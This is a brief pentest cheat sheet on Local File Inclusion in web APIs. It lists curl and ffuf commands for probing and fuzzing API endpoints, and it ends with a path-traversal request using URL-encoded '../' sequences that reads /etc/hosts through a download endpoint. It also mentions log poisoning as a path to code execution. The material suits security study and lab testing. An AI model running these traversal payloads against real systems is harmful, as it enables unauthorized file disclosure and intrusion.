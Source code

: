 # Local File Inclusion (LFI)

Local File Inclusion (LFI) is an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being `Apache Log Poisoning`.

#### Assess the API

Interact to retrieve information

```bash
curl http://SERVER_IP:PORT/api
```

#### Fuzz API endpoints

Wordlist - [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt)

{% code overflow="wrap" %}
```bash
ffuf -w "api-endpoints-mazen160.txt" -u 'http://SERVER_IP:PORT/api/FUZZ'
```
{% endcode %}

#### Interact with the founded endpoint

```bash
curl "http://SERVER_IP:PORT/api/download"
```

#### Specify a common file&#x20;

```bash
curl "http://SERVER_IP:PORT/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
```
